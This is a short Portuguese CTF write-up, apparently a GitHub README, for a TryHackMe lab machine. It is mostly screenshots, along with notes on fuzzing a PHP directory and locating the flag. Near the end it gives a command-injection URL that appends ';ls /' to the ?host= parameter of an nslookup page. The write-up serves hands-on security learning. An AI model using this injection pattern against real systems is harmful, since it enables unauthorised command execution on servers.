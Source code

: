 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

### 📸 Prints

![img1](https://github.com/user-attachments/assets/5c2252f8-9c2d-436f-867e-3e97c8ebd7e5)
![img2](https://github.com/user-attachments/assets/00ec9858-12dd-45c2-88b2-5a86941257c5)
![img3](https://github.com/user-attachments/assets/145be49f-c64a-4ac9-8b22-a42d17fd7f71)
![img4](https://github.com/user-attachments/assets/a3740925-1162-44ae-966a-1cb367c804f6)
![img5](https://github.com/user-attachments/assets/d4cbd408-a1c8-4895-b84d-ced9aa3da559)

---

## 🏁 Comando para encontrar a FLAG

```bash
# Obs: como eu sabia que estava procurando uma flag, coloquei /flag no final de temp/empresa/
```

![img_flag](https://github.com/user-attachments/assets/e818b708-9326-4833-a362-35cf34412b93)

### ✅ FLAG ENCONTRADA!

![img_flag_found](https://github.com/user-attachments/assets/591bacc9-22ca-49ff-aff3-92635004abb1)

---

## 🕵️‍♂️ Descoberta de Diretório via Injeção de Host PHP

### 🧪 Fuzzing no caminho:
```
temp/portal/nslookup
```

Navegando no GitHub, encontrei uma lista de fuzz para PHP:  
🔗 https://github.com/tjomk/wfuzz/blob/master/wordlist/fuzzdb/discovery/PredictableRes/PHP.fuzz.txt

![img_fuzz](https://github.com/user-attachments/assets/7dceaf8c-9c80-4340-b059-cf427e391c06)

### 🔎 Verificando a página:

![img_page_check](https://github.com/user-attachments/assets/240ae9b3-430c-4025-89dc-e3706873dfea)

Reparei que, ao clicar em "enviar", aparece um parâmetro `?host=`.  
Essa falha permite executar comandos após colocar `;` no final.  
Exemplo:

```bash
http://192.168.100.207/temp/portal/nslookup/__index.php?host=yahoo.com;ls%20/
```

![img_exploit](https://github.com/user-attachments/assets/08036e6d-a273-4445-a951-57cc98c2b16c)

---
